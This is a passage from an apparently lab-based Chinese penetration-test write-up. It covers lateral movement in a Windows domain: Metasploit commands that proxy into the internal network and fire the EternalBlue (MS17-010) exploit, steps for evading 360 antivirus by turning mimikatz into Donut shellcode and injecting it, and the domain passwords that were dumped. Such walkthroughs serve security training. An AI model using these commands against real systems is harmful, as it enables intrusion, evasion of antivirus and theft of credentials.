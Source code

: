 •-Pn和-sT必须要加上，否则扫描失败

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119211545491

通过扫描发现，内网中还存在10.10.10.10和10.10.10.201这两台主机，对应的主机名分别为DC和PC。

横向移动
----

既然是攻击内网，我们当然少不了试试永恒之蓝了，在msfconsole里面执行 `setg Proxies socks5:127.0.0.1:1080` ，把msf代理进内网（也可以添加路由）：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119205609504

扫描目标内网中存在ms17_010的主机：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119212639319

发现两个主机都存在漏洞，先打尝试那个PC（10.10.10.201）：

```
`setg Proxies socks5:127.0.0.1:1080       // 预先设置好代理``use exploit/windows/smb/ms17_010_eternalblue``set payload windows/x64/meterpreter/bind_tcp``set rhost 10.10.10.201``set lport 4444``set AutoRunScript post/windows/manage/migrate             // 自动迁移进程``run`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119213056549

失败了，又尝试了一下DC，好家伙，直接蓝屏了，只能走别的路了。在WEB主机上用mimikatz抓一下域用户的密码，为了能绕过360，我们要对mimikatz进行免杀，使用Tide安全团队的系列文章《远控免杀专题》中的[msf加载bin的方法](https://mp.weixin.qq.com/s?__biz=Mzg2NTA4OTI5NA==&mid=2247486304&idx=1&sn=b129ccc7e7c216a7c1ddabc76422d99d&chksm=ce5e2901f929a01780d94b7b90cba5991eb1c38e53282dd95cfb44455792845f655422a5db9f&mpshare=1&scene=21&srcid=&sharer_sharetime=1588207545317&sharer_s#wechat_redirect "msf加载bin的方法")，需要用到 Donut 和 shellcode_inject.rb 。

首先使用Donut对需要执行的文件进行shellcode生成，这里对mimikatz进行shellcode生成，生成bin文件mimi.bin，等下会用到：

```
./donut -f 1 mimikatz.exe -a 2 -o mimi.bin
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119221425322

然后将上面的 shellcode_inject.rb 放入 `/usr/share/metasploit-framework/modules/post/windows/manage/` 目录下，然后进入msfconsole，执行 `reload_all` 载入所有模块。

此时，我们便可以使用刚才载入的shellcode_inject模块来将mimi.bin注入执行了：

```
`use post/windows/manage/shellcode_inject``set session 2``set shellcode /root/mimi.bin``set CHANNELIZED true``set INTERACTIVE true    // 这两个一定要设为true，不然无交互式界面。``run`
```

最后成功加载了mimikatz：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119224502081

成功抓取到administrator、de1ay、mssql这三个域用户的密码，皆为1qaz@WSX：

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119224847138![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119224939134![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "null")image-20210119225017151
